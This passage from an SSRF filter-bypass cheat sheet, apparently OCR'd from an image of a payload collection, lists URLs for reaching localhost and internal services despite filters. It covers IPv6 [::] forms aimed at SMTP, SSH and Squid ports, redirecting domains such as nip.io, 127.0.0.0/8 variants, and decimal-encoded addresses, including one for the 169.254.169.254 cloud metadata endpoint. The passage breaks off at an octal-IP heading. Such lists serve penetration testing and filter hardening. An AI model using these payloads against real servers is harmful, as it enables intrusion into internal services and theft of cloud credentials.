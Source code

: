 ```
https://127.0.0.1/
https://localhost/
```

**Bypass localhost with [::]**

```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

```
http://[0000::1]:80/
http://[0000::1]:25/ SMTP
http://[0000::1]:22/ SSH
http://[0000::1]:3128/ Squid
```

**Bypass localhost with a domain redirection**

| Domain | Redirect to |
| --- | --- |
| localtest.me | `::1` |
| localh.st | `127.0.0.1` |
| spoofed.[BURP_COLLABORATOR] | `127.0.0.1` |
| spoofed.redacted.oastify.com | `127.0.0.1` |
| company.127.0.0.1.nip.io | `127.0.0.1` |

The service nip.io is awesome for that, it will convert any ip address as a dns.

## **Bypass localhost with CIDR**

IP addresses from 127.0.0.0/8

`http://127.127.127.127
http://127.0.1.3
http://127.0.0.0`

## **Bypass using a decimal IP location**

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/ = http://169.254.169.254
```

## **Bypass using octal IP**
